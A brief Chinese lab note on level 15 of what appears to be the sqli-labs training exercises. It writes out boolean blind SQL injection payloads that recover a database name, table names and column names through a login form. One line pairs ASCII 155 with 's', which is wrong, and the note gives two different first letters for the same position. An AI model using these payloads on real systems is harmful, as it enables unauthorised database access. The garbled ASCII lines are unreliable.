

# Less15
 寻找注入点
 admin' 登录失败

   admin'# 登录成功
   
关于'闭合
这里无回显，报错注入也用不了
尝试布尔盲注

　　猜解库名长度

　　'or (length(database()))=8 --+

　　利用ASCII码猜解数据库名称

　　'or (ascii(substr(database(),1,1)))=155-- 返回正常，第一位为s

　　'or (ascii(substr(database(),1,1)))=101-- 返回正常，第一位为e

　　以此类推

　　猜表名

　　'or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))=101-- 若返回正常，第一位为e

　　猜字段名

　　'or (ascii(substr((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)))=105-- 若返回正常，第一位为i

　　盲注皆以此类推

---
直接上sqlmap
